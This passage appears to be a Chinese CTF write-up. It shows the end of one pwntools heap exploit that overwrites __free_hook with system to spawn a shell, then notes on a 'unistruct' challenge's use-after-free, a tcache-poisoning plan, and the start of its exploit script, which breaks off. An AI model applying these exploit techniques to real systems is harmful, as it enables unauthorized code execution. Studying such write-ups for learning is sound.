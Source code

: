 ```python


for i in range(6):
	add(i+20,0x28)

add(1,0x28)

add(27,0x28)
add(28,0x28)
add(29,0x28)
show(3)

ru(' ')
libcbase=leak_address()-0x3ebca0
print(hex(libcbase))
system=libc.sym['system']+libcbase
free_hook=libc.sym['__free_hook']+libcbase

edit(3,p64(0)*4+p64(free_hook))

add(11,0x18)
add(12,0x18)
edit(11,'/bin/sh\x00')
edit(12,p64(system))

ia()

```

### unistruct

1. 实现了一个通用的数据类型，随意输入发现整数数组类型的修改存在bug，修改后原值并没有发生改变
2. 经过调试可以知道数组类型在操作时候会先申请一个相同大小的临时堆块，append的时候如果超出原堆块大小，则会释放临时堆块申请更大的堆块保存数据，而place则只会将数据保存临时堆块上，可能造成UAF，操作的时候还会输出临时堆块上的值
3. 字符串类型与c++的string类似，当输入的字符串长度大于目前申请到的内存则会释放原内存申请更大的内存来存放字符串
4. 思路就是申请超大数组，append操作将临时堆块释放，place操作以整数形式泄露libc地址的低四字节，再申请tcache大小数组，append操作将堆块放入tcache后place操作修改fd为free_hook，改free_hook为system之后申请"/bin/sh"字符串并用 / 填充足够长触发free即可拿到shell（爆破1/256 libc地址）

exp：

```python
#!/usr/bin/python3

from pwn import *
import sys
context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='unistruct'
libc_name='libc.so.6'

libc=ELF("./"+libc_name)
e=ELF("./"+binary_name)

def exp():
	if local:
		p=process("./"+binary_name)
	else:
		p=remote('124.70.137.88', 40000)



	def z(a=''):
```